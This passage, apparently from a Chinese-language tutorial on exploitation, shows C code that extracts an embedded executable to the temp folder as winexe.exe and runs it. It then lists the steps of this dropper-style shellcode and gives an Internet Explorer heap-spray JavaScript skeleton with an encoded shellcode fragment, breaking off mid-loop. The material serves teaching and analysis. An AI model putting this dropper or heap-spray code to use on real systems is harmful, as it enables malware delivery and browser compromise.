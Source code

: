 ```
                    NULL,
                    FILE_BEGIN);

    ReadFile(hFileHandle,exebuffer,sizeof(exebuffer),&dwWrite,NULL);    //读文件
    GetTempPathA(MAX_PATH,tempPath);            //获取 temp 路径
    strcat_s(tempPath,"winexe.exe");

    hExeFile = CreateFileA(tempPath,        //创建 exe
                        GENERIC_WRITE,
                        FILE_SHARE_WRITE,
                        NULL,
                        CREATE_ALWAYS,
                        NULL,
                        NULL);
    WriteFile(hExeFile,
            exebuffer,
            sizeof(exebuffer),
            &dwWrite,
            NULL);
    CloseHandle(hFileHandle);
    CloseHandle(hExeFile);

    WinExec(tempPath,SW_SHOW);      //执行 exe
}} 
```

以释放并执行的行为伪代码作为例子，可以得到以下信息：

(1) ShellCode 使用操作系统的 API 函数

(2) 主体文件路径必须要首先得到

(3) 通过偏移读取可执行文件

(4) 获取%temp%或其他路径

(5) 生成可执行程序并执行

ShellCode 得以执行之前，还有很多漏洞利用方法，比如堆填充(Heap Spray)，绕过地址随机化(ASLR)+数据执行保护(DEP)。

**1 、Heap Spray**

堆填充在浏览器和 Flash Player 相关漏洞应用比较多，Adobe Reader 的早期漏洞也会使用这种方法。其核心思想是在进程内存空间中填充大量无用数据，漏洞触发之后通过相应技巧跳转到 ShellCode。

常见是在 IE 浏览器中，简单示例代码如下：

```
<SCRIPT language="javascript">

    var heapSprayToAddress = 0x05050505;    //堆填充地址，最终会用来做 shellcode 执                                                //行地址
    var payLoadCode = unescape(             //ShellCode
    "%u9090%u9090%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120");
    var heapBlockSize = 0x400000;       //堆填充大小
    var payLoadSize = payLoadCode.length * 2;
    var spraySlideSize = heapBlockSize - (payLoadSize+0x38);
    var spraySlide = unescape("%u0505%u0505");
    spraySlide = getSpraySlide(spraySlide,spraySlideSize);
    heapBlocks = (heapSprayToAddress - 0x400000)/heapBlockSize;
    memory = new Array();

    for (i=0;i<heapBlocks;i++)
    {
        memory[i] = spraySlide + payLoadCode;
    }

    for ( i = 0 ; i < 128 ; i++) 
```
